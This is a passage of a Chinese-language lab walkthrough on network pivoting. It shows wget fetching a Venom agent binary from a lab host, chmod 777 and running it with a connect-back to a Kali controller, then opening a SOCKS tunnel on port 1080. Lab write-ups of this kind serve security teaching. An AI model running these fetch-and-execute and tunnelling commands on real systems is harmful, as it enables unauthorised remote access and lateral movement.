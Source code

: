> ![image-20230903012756958](../资源文件/图片/image-20230903012756958.png)
>
> - 然后再主机（docker）上部署Venom客服端
>
> ```
> cd /tmp
> wget -c http://192.168.56.101/agent_linux_x64           //下载客户端
> chmod 777 agent_linux_x64								//提升权限
> ./agent_linux_x64 -rhost 192.168.56.103 -rport 10086	//执行客户端访问目标
> ```
>
> ![image-20230903013147504](../资源文件/图片/image-20230903013147504.png)
>
> 然后会发现kali主机的Venom管理端可以看到有主机上线
>
> ![image-20230903013310276](../资源文件/图片/image-20230903013310276.png)
>
> 查看刚刚连接的节点（`show`），选择节点（`goto 1`），启动socks隧道并指定1080为隧道端口（`socks 1080`）
>
> ![image-20230903013523908](../资源文件/图片/image-20230903013523908.png)